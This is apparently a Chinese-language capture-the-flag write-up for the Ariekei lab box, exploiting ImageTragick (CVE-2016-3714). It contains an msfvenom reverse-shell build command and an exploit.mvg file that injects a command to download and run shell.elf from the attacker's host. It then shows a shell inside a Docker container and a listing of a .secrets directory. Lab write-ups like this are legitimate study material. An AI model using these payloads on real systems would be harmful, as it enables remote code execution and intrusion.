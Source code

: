 Exploit: [https://imagetragick.com](https://imagetragick.com/)

ImageTragick exploit \(CVE-2016-3714\)

[https://www.exploit-db.com/exploits/39767](https://www.exploit-db.com/exploits/39767)

首先使用msfvenom制作一个二进制反shell，放入`/var/www/html`，apache2开启

```bash
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f elf -o shell.elf
```

再制做一个上传的漏洞利用文件exploit.mvg

文件内容如下

Exploit.mvg

```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl 10.10.14.6/shell.elf -o /tmp/shell.elf; chmod +x /tmp/shell.elf; /tmp/shell.elf; echo "rce1)'
pop graphic-context
```

![image-20200920093231179](assets/Ariekei_65.assets/image-20200920093231179.png)

监听443，上传exploit，马上得到shell

![image-20200920093326068](assets/Ariekei_65.assets/image-20200920093326068.png)

快速搜索一下便发现我们正在Docker容器中。使用mount命令我们可以看到docker环境中已挂载文件和目录的列表。

在common目录中可以发现

```bash
[root@calvin]# cd /common
cd /common
[root@calvin common]# ls -la
ls -la
total 20
drwxr-xr-x 5 root root 4096 Sep 23 18:36 .
drwxr-xr-x 36 root root 4096 Nov 13 15:10 ..
drwxrwxr-x 2 root root 4096 Sep 24 00:59 .secrets
drwxr-xr-x 6 root root 4096 Sep 23 18:32 containers
drwxr-xr-x 2 root root 4096 Sep 24 02:27 network

[root@calvin common]# cd containers
cd containers
```